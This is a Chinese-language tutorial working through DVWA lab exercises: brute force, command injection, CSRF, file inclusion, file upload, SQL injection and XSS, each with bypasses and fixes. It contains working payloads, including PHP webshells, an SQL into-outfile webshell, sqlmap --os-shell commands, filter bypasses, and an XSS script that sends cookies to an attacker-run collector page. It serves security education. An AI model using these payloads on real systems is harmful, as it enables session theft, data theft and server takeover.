## +暴力破解

### 相关概念


### 前期准备

- Firefox
- Proxy Switcher

- DVWA

- OWASP ZAP

### 手工实战

输入用户名"admin"， 密码“password"，成功登录

进入DVWA Security，Security Level选择Low

确认破解结果
1、失败:输入任意用户名密码，如test/test
2、成功:一般情况下无法知道成功的破解结果,但可以确认与失败是不相同的

确认破解范围
1、用户名字典
2、密码字典

开始暴力破解
手工循环操作的次数由字典的大小决定
成功破解用户名/密码为admin/password

### 自动实战
Firefox代理设置
ZAP代理设置
抓包

1、输入用户名”test"
2、输入密码'test'"
3、单击"login" 按钮


确认破解结果
错误响应页面4.83KB
正确响应页面4.89KB

开始暴力破解
点击"Start Fuzzer"

破解结果:
admin/password


设置代理

信任CA


low 等级

暴力破解，做Fuzzer，判断响应体大小


medium等级

相比low等级，当登录失败，将sleep(2)，近增加了时间成本。破解方式同low等级


High等级

抓包发现每次登录参数user_ token都是动态改变且不可预测的随机字符串

下一次的user_token会在上一次的响应包里返回给浏览器

针对这样的情况我们能不能攻破呢?答案是肯定的，我们需要重新设计破解动作

破局点：首次登录不存在usertoken，那它是如何登录的呢？

破解动作:访问首页→获得usertoken参数→发送带usertoken的登录数据包


编写python脚本破解

在运行脚本前需要修改自己的本地IP地址和自己登录的PHPSESSID


Impossible等级

密码输错3次，锁定账号15分钟


### 修复暴力破解

- 限制错误登录次数

- 验证码


掌握什么是暴力破解

- 暴力?

- 破解?

  

掌握低等级的暴力破解手工和自动化方法

- low等级手工实战

- low等级自动实战

  

了解高等级的暴力破解自动化方法及修复方法

- medium等级
- high等级
- Impossible等级


## 命令注入

### 相关概念

命令?
操作系统命令!

注入?
通过WEB程序在服务器上拼接系统命令

### 命令注入流程

1. 是否调用系统命令
2. 函数或函数的参数是否可控
3. 是否拼接注入命令

### 实战技巧

#### 如何连接两条命令?

`&&`、`&`、`|`、`||`

- A&&B：A执行成功，然后才会执行B
- A&B：简单的拼接，AB之间无制约关系
- A|B：A的输出，作为B的输入
- A||B：A执行失败，然后才会执行B

#### 如果过滤了敏感命令怎么办?

- windows系统中使用`""`绕过，linux中还支持`''`绕过

  ```bash
  C:\Users\moluo>whoami
  home\moluo
  
  C:\Users\moluo>who""ami
  home\moluo
  
  C:\Users\moluo>who""am""i
  home\moluo
  ```

#### 如果不显示输出结果怎么办?

- 延时注入

  | 系统    | 命令                      |
  | ------- | ------------------------- |
  | Windows | ping 127.0.0.1 -n 5 > nul |
  | Linux   | sleep 5                   |

- 远程请求

  在远端搭建一台服务器，通过被攻击的机器发起远端请求

  | 系统    | 命令           |
  | ------- | -------------- |
  | Windows | ping、telnet等 |
  | Linux   | wget、curl等   |

  

### 前期准备

- Firefox

- DVWA

### 手工实战

1. 输入用户名"admin"， 密码“password"，成功登录
2. 进入DVWA Security，Security Level选择Low
3. 进入Command Injection，是命令执行的主界面


1. 正常操作，输入IP地址，点击提交，显示结果。
2. 猜测命令，显示结果，ping 127.0.0.1


命令注入一确认可控字段
ping 127.0.0.1
固定字段: ping+空格
可控字段:任意


命令注入一确认命令语句


ping 127.0.0.1 && net user

输入注入命令，显示注入结果


medium等级

手工实战
输入注入命令`127.0.0.1 && net user`，命令执行出错，猜测&&符号被过滤


high等级

破局点：|


Impossible等级

限制了输入IP的格式，有效地防止了命令注入


### 自动实战


### 修复命令注入

- 不是用黑名单，使用白名单


##  CSRF

### 相关概念




受害者角度
用户在当前已登录的Web应用程序上执行**非本意**的操作


攻击者角度

攻击者欺骗浏览器，让其**以受害者的名义**执行自己想要的操作


攻击受害者场景

1. 收到一条链接?
2. 点一下
3. 钱没了

### 前期准备

- Firefox

- DVWA
- HackBar
- Tamper Data

### 手工实战

进入攻击页面

1. 输入用户名"admin"， 密码“password"，成功登录
2. 进入DVWA Security，Security Level选择Low
3. 进入CSRF，是CSRF攻击的主界面，是常见的修改密码

正常操作

1. 输入新密码，确认新密码，点击提交
2. 验证结果，输入用户名admin，输入密码test，点击登录，成功登录

分析



抓包，开启Tamper Data，三步操作，截获数据包

分析，打开数据包，修改数据包，登录验证


攻击者原始思路

1. 构建包含攻击者修改密码后的请求数据包，发给受害者，让受害者点击。

   GET http://192.168.61.24/dvwa/vulnerabilities/csrf/?password_new=hacker&password_conf=hacker&Change=Change

   但请求太明显了，受害者是不可能点的。想办法伪造一下。

2. 构造HTML

   

   csrf.html

   ```html
   <html>
       <body>
           <form action="http://10.240.138.212/DVWA-1.9/vulnerabilities/csrf/">
               <input type="hidden" name="password_new" value="hacker"/>
               <input type="hidden" name="password_conf" value="hacker"/>
               <input type="hidden" name="Change" value="Change"/>
               <input type="submit" value="Click Me"/>
           </form>
       </body>
   </html>
   ```

3. 构造链接http://127.0.0.1/csrf.html

4. 诱骗受害者点击
   

5. 受害者点击


medium等级

- 抓包，手工输入，Low方法

- 对比发现，难道mediun对referer有限制?

- 尝试，截包，改referer发送，查看结果

  修改过程中的思考

  | referer | 结果 |
  | ------- | ---- |
  |referer : http://10.240.138.212/DVWA-1.9/vulnerabilities/csrf/ |修改成功|
  |referer : http://10.240.138.212/ |修改成功|
  |referer : 10.240.138.212 |修改成功|
  

referer中只要包含host就能绕过限制

- 验证，referer修改成host，成功修改
- 变更攻击思路，让构造的链接中包含host，http://127.0.0.1/**10.240.138.212**/csrf.html


high等级

- 请求中多了user_token参数，并且每次都是变化的

- 回顾暴力破解high等级，user_token动态变化，来自上一次响应包

- 无法利用，需要结合XSS漏洞获取页面中的user_ token参数

  讨论：为何暴力破解可以突破CSRF Token？

  因为构造HTTP请求的人不一样:

  暴力破解的**攻击者是当前用户**，受害者是其他用户

  CSRF的攻击者是其他用户,**受害者是当前用户**

  

  定义

  CSRF Token：我们称这种类型的随机参数为csrf token，它**保证了攻击者无法猜测到所有参数**


Impossible等级

需要输入原始密码，有效地防止了CSRF

### 修复CSRF

- 校验Referer

- 随机Token

- 验证码


## 文件包含

### 相关概念

文件包含：一种代码处理方法 ，函数如include，require等，参数是**文件名**

文件包含漏洞：文件名参数用户可控且过滤不严，被攻击者**偷梁换柱**，达到执行恶意代码的目的



### 前期准备

- Firefox

- DVWA
- HackBar

### 手工实战

进入攻击页面

1. 输入用户名"admin"， 密码“password"，成功登录
2. 进入DVWA Security，Security Level选择Low
3. 进入File Inclusion，是文件包含漏洞的主界面

PHP设置→phpStudy→allow_url_include→刷新


正常操作

1. 点击file1.php、file2.php、file3.php

2. 发现：变化的仅是url中的page参数值。https://192.168.61.24/dvwa/vulnerabilities/fi/?page=file1.php

3. 尝试，test.php，报错，且报出了绝对路径

   

思考

1. url背后的密码

   

2. 攻击一本地文件读取

   

   验证，原始内容，文件包含内容，成功读取

   https://192.168.61.24/dvwa/vulnerabilities/fi/?page=../../php.ini

3. 读取其他目录的PHP脚本会怎样?显示内容还是执行PHP代码?

   验证，原始内容，文件包含内容，成功执行

   https://192.168.61.24/dvwa/vulnerabilities/fi/?page=../../phpinfo.php

4. 攻击一远程文件执行

5. 这个文件可以在任何地方?只要有php代码的文件都会执行?

   验证、原始内容、文件包含内容、成功执行

   https://192.168.61.24/dvwa/vulnerabilities/fi/?page=http://127.0.0.1/phpinfo.txt

   https://192.168.61.24/dvwa/vulnerabilities/fi/?page=http://127.0.0.1/phpinfo.php

   ```bash
   <?php
     phpinfo();
   ?>
   ```

   问题

   | 执行文件    | SERVER_NAME   | SERVER_ADDR   |
   | ----------- | ------------- | ------------- |
   | phpinfo.php | 127.0.0.1     | 127.0.0.1     |
   | phpinfo.txt | 192.168.61.24 | 192.168.61.24 |

   phpinfo.txt才是正解，服务端执行


攻击思路




Low等级

本地文件读取
Low方法失效
过滤了某些字符



尝试绕过`过滤`




远程文件执行
Low方法失效
过滤了某些字符



尝试绕过`http://`




high等级

本地文件读取

报错：ERROR: File not found!



反复尝试发现，服务端只认file开头的文件


破解思路

file://

file协议,文件传输协议，访问本地计算机中的文件

验证
php.ini
win.ini

https://192.168.61.24/dvwa/vulnerabilities/fi/?page=file:///D:/phpStudy/WWW/DVWA-1.9/php.ini

https://192.168.61.24/dvwa/vulnerabilities/fi/?page=file:///c:/windows/win.ini


远程文件执行

Low方法失效
Medium方法失效

由于必须file开头,无法远程文件执行

需要结合文件上传漏洞，然后进行本地文件执行


攻击思路




lmpossible等级

只允许四个文件名，有效地防止了文件包含漏洞


### 自动实战


### 修复文件包含

白名单


## 文件上传

### 相关概念

- 文件上传

  Web中的常见功能，将本地文件上传到服务器上

- 文件上传漏洞

  Web允许用户上传恶意代码文件，并在服务器上运行



### 前期准备

- Firefox
- DVWA
- HackBar
- Proxy Switcher
- OWasp_zap

### 手工实战

进入攻击页面

1. 输入用户名"admin"， 密码“password"，成功登录
2. 进入DVWA Security，Security Level选择Low
3. 进入File Upload，是文件上传漏洞的主界面，是常见的上传图片的功能


正常操作

1. test.jpg，选择，上传成功，提示`../../hackable/uploads/test.jpg succesfully uploaded!`


思考

1. 猜测上传后的访问路径

   ```bash
   http://10.240.138.212/DVWA-1.9/vuInerabilities/upload/
   +
   ../../hackable/uploads/test.jpg
   =
   http://10.240.138.212/DVWA-1.9/vulnerabilities/upload/../../hackable/uploads/test.jpg
   http://10.240.138.212/DVWA-1.9/hackable/uploads/test.jpg
   ```

2. 通过`http://10.240.138.212/DVWA-1.9/hackable/uploads/test.jpg`尝试访问test.jpg，访问成功

3. 尝试上传phpinfo.php文件，文件内容如下，尝试执行，成功执行

   ```bash
   <?php phpinfo();?>
   ```


攻击

1. 尝试上传一句话webshell，上传成功，webshell内容如下：

   cmd.php

   ```bash
   <?p222222h2222222222p
   @e22222222222val($_G22222222222ET['cm2222222222d']);
   ?>
   ```

2. 尝试执行webshell，执行成功

   `http://10.240.138.212/DVWA-1.9/hackable/uploads/cmd.php?cmd=phpinfo();`
   `http://10.240.138.212/DVWA-1.9/hackable/uploads/cmd.php?cmd=system("dir");`
   `http://10.240.138.212/DVWA-1.9/hackable/uploads/cmd.php?cmd=system("type D:\\phpStudy\\WWW\\DVWA-1.9\\php.ini");`


medium等级

1. 上传php文件，不允许上传

2. 抓包分析，对比成功上传和失败上传请求体发现3处不同

   

3. 不断尝试，修改重新发送，确认造成失败的原因是文件类型


攻击
image/jpeg
上传成功


high等级

1. 上传php文件，不允许上传

2. 抓包分析，对比成功上传和失败上传请求体，最终发现服务端限制了文件后缀和文件内容

   

3. 通过制作**内涵图**，尝试绕过该机制，成功上传
4. 下载，查看，确认上传的图片未发生变化
5. 配合**文件包含漏洞**或**web容器解析漏洞**发起攻击


Impossible等级

重新生成了图片，有效地防止了文件上传漏洞


### 修复

阻止非法文件上传

- 文件名后缀白名单
- 文件类型校验
- 文件内容头部判断

阻止非法文件执行

- 文件重命名

- 文件压缩重生成
- 存储目录执行权限
- 存储目录与Web分离


### 制作"内涵图"

1. 准备1.jpg

2. 准备1.txt，内容如下

   ```bash
   <?php phpinfo();?>
   ```

3. 在`cmd.exe`中使用以下命令生成内涵图

   ```bash
   copy 1.jpg/b+1.txt/a 2.jpg
   ```

   

### web容器解析漏洞

例如nginx web容器漏洞

1. phpStudy切换
2. 确保`php.ini`中`cgi.fix_pathinfo`配置值为1

以上的配置将存在畸形解析。


畸形解析概念

对于路径`xxx.xxx/xxx.php`，只要前一个xxx.xxx文件存在，就会当成后一个文件的格式解析

例如：对于`shell.jpg/2.php`，当请求`http://10.240.138.212/DVWA-1.9/hackable/uploads/shell.jpg/2.php`时，shell.jpg将被当成shell.php解析执行


## SQL回显注入

### 相关概念

- SQL

  操作数据库的语言!

- SQL注入

  通过WEB程序在数据库里执行任意SQL语句

- SQL回显注入

  数据库的执行结果直接显示到页面上

- 命令注入和SQL注入的区别

  命令注入：注入的是**系统命令**

  SQL注入：注入的是**SQL语句**



### 前期准备

- Firefox
- DVWA
- HackBar
- Firebug
- Tamper Data
- SQLMAP

### 手工实战

进入攻击页面

1. 输入用户名"admin"， 密码“password"，成功登录
2. 进入DVWA Security，Security Level选择Low
3. 进入SQL Injection，是SQL回显注入的主页面


正常操作

1. 输入`1`，提交，查询结果


思考

1. 敢不敢猜一下这个SQL语句长啥样?

   ```sql
   Select firstname, sunname from xxx
   Select firstname, sunname from xxx where userid=我们输入的id
   ```

   

2. 探测是否存在漏洞。输入`1'`，提交，错误回显`hava an error in SQL syntax`，则说明存在sql注入


3. 确定注入POC

   where语句中比较常见的有3种情况

   三种注入POC

   

分别尝试以下POC

- 1 or 1024= 1024
- 1' or '1024'='1024
- 1" or "1024"="1024

发现1' or '1024'='1024，显示出了所有的用户。则可以确定low等级的sql语句，使用`'`闭合


三种MySQL注释符




4. 通过`order by`结合`二分法`确定查询字段数

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1'+order+by+1--+ &Submit=Submit#
   ```

   

   `1' order by 1-- `,正常说明字段数≥1
   `1' order by 10-- `异常说明字段数<10

   > 注意：-- 后需要一个空格




5. 通过`union select`确定回显点

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+1,2--+ &Submit=Submit#
   ```

   1,2都正常回显

6. 攻击

   查询数据库信息。`@@version`查询数据库版本，`@@datadir`查询数据库的目录

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+@@version,@@datadir--+ &Submit=Submit#
   ```

   查询用户名和数据库名。`user()` 查询用户名，`database()`查询数据库名

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+user()+,database()--+ &Submit=Submit#
   ```

   查询表名。`information_schema.tables`查询数据库表名

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+1,table_name+from+information_schema.tables+where+table_schema='dvwa'--+ &Submit=Submit#
   ```

   查询列名。`information_schema.columns`查询数据表列名

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+1,column_name+from+information_schema.columns+where+table_name='users'--+ &Submit=Submit#
   ```

   查询用户名和密码。列名: user，password，获取用户密码hash，通过http://www.cmd5.com/反查明文密码

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+user,password+from+users--+ &Submit=Submit#
   ```

   文件读取。`load file()`加载电脑文件win.ini

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+1,load_file("C:\\windows\\win.ini")--+ &Submit=Submit#
   ```

   写Webshell，PHP一句话木马

   准备cmd.php

   ```bash
   <?php
   @e222val($_GET['cmd']);
   ?>
   ```

   获取物理路径。通过引发异常，导致应用报错，报出物理路径。
   
   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+"xx","xx+into+outfile+"xx"--+ &Submit=Submit#
   ```
   
   写webshell。通过`select ... into outfile ...`成功写入
   
   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+"<?php
   @e222val($_GET['cmd']);?>","webshell"+into+outfile+"D:\\phpStudy\\www\\DVWA-1.9\\cmd.php'--+ &Submit=Submit#
   ```
   
   尝试执行。成功执行
   
   ```bash
   http://10.240.138.212/DVWA-1.9/cmd.php?cmd=system(dir);
   ```
   
   

### 自动实战

sqlmap

攻击url`http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit#`

指定攻击url -u 

```bash
sq|map.py -u "http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit#"
```

攻击参数 -p

```bash
sq|map.py -u "http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit#" -p "id"
```

登录状态
指定cookie --cookie

```bash
sq|map.py -u "http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3hOrrgm019seusvds4tskk5"
```

执行sqlmap语句

注入类型



当前用户和数据库名。`--current-user`获取当前用户、`--current-db`获取数据库名

```bash
sqlmap.py -u"http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit= Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3h0rrgm019seusvds4tskk5" --current-user --current-db
```

表名

```bash
sqlmap.py -u"http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit= Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3h0rrgm019seusvds4tskk5" -D dvwa --tables
```

列名

```bash
sqlmap.py -u"http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit= Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3h0rrgm019seusvds4tskk5" -D dvwa -T users --columns
```

用户名密码

```bash
sqlmap.py -u"http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit= Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3h0rrgm019seusvds4tskk5" -D dvwa -T users -C "user,password" --dump
```

获取Webshell，输入物理路径，执行dir

```bash
sqlmap.py -u"http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit= Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3h0rrgm019seusvds4tskk5" -D dvwa -T users -C "user,password" --os-shell
```


medium等级

1. 不同之处，页面变化，但仍然是POST提交

2. Tamper Data改包，修改id的值为`1' union select user,password from users--`，Low方法失效

   思考：单引号被转义

   重新确定注入POC
   1" or "1024"="1024
   1' or '1024'='1024
   1 or 1024= 1024

   最终确定poc为1 or 1024= 1024

3. 获取列表名时，再次失败。因为单引号被转义

   ```bash
   1 union select 1,table_name from information_schema.tables where table.schema='dwwa'-- 
   ```

   通过`HEX编码`绕过，重新发包，成功。

   ```bash
   1 union select 1,table_name from information_schema.tables where table_schema=0x64767761-- 
   ```

   

自动实战

--data 通过--data 发送post请求

```bash
sqlmap.py -u "http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/" --data "id=1&Submit=Submit" -p "id" --cookie "security=low;PHPSESSID=jka3hOrrgm019seusvds4tskk5"
```


high模式

不同之处

页面变化，注入点和显示页，不在同一页面上


手工实战

破解方法和low模式相同


自动方法

--second-order 指定返回的页面

```bash
sqlmap.py -u "http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" -p "id" --cookie "security=low;PHPSESSID=jka3hOrrgm019seusvds4tskk5" --second-order "http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/"
```


Impossible模式

检测了id数据类型，使用了预编译绑定id变量，有效地防止了SQL注入


### 修复

- 参数化SQL语句

  Tips :除了预编译，还可以使用存储过程

- 用户输入过滤，使用白名单，不要使用黑名单


## XSS

### 相关概念

用户侧场景







**客户端**代码注入，通常注入代码是**JavaScript**
区别于命令注入，SQL注入等服务端代码注入


存储，反射，DOM三种XSS区别




CSRF和XSS的区别


### 前期准备

- Firefox
- DVWA
- HackBar
- Firebug
- Tamper Data

### 手工实战

进入攻击页面

1. 输入用户名"admin"， 密码“password"，成功登录
2. 进入DVWA Security，Security Level选择Low
3. 进入XSS ( Reflected )


正常操作

1. 输入输入`xss` ，提交，显示Hello xss

2. 尝试输入`<Xss>`，提交，FireBug

   查看源码发现hello的后面出现`<xss> </xss>`的标签

3. 弹窗测试，`<script>alert(/xss/)</script>`，成功注入JavaScript，弹框成功，说明存在xss漏洞

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/xss_r/?name=<script>alert(/xss/)</script>#
   ```

   JavaScript弹窗函数

   


攻击思路



攻击者web设计


构造攻击页面。http://127.0.0.1/cookie.php

cookie.php

```bash
<?php
$cookie = $_GET['cookie'];
file_put_contents('cookie.txt',$cookie);
?>
```


构造攻击js

```bash
<script>document.location='http://127.0.0.1/cookie.php?cookie='+document.cookie;</script>
```


构造攻击url

```bash
http://10.240.138.212/DVWA-1.9/vulnerabilities/xss_r/?name=<script>document.location='http://127.0.0.1/cookie.php?cookie='+document.cookie;</script>
```

使用URLencode编码并发送攻击url

```bash
http://192.168.61.24/dvwa/vulnerabilities/xss_r/?name=%3cscript%3edocument.location%3d'http%3a%2f%2f192.168.61.27%2fcookie.php%3fcookie%3d'%2bdocument.cookie%3b%3c%2fscript%3e
```


获得cookie

http://127.0.0.1/cookie.txt

cookie.txt

```bash
security=low;
PHPSESSID=tkgm1hqifl8du9rdkdge7ba0c2
```


劫持会话。使用FireBug的修改cookie功能编辑cookie，访问dvwa的index.php，成功访问。


Medium等级

过滤了script标签，尝试通过`<scr<script>ipt>`绕过

```bash
http://10.240.138.212/DVWA-1.9/vulnerabilities/xss_r/?name=<scr<script>ipt>alert(/xss/)</script>#
```

大小写混合`<ScRiPt>`绕过

```bash
http://10.240.138.212/DVWA-1.9/vulnerabilities/xss_r/?name=<ScRiPt>alert(/xss/)</ScRiPt>#
```


High等级

Low方法、Medium方法失效

img标签``绕过

```bash
http://10.240.138.212/DVWA-1.9/vulnerabilities/xss_r/?name=#
```

成功注入JavaScript


iframe标签`<iframe onload=alert(1)>`绕过

```bash
http://10.240.138.212/DVWA-1.9/vulnerabilities/xss_r/?name=<iframe onload=alert(1)>#
```

成功注入JavaScript


lmpossible等级
`&`、`"`、`'`、` <>`被`htmlspecialchars`函数转义

```bash
&      &amp;
"      &quot;
'      &apos;
<      &lt;
>      &gt;
```

> 提示：`htmlspecialchars`函数默认不转义单引号`'`，若要转义请指定`ENT_QUOTES`参数


进入XSS ( Stored )

low等级

前端限制

FireBug查看

TamperData绕过

成功


存储型xss是写到数据库里面的，将一直存在。为了防止对以后的测试照成影响，建议重置数据库清理弹窗


mysql real escape_ string
函数会对引号进行转义,防
止SQL注入


### 修复

- 在服务端进行**输入过滤**。不推荐黑名单，推荐白名单
- 输出过滤。HTML编码、JS转义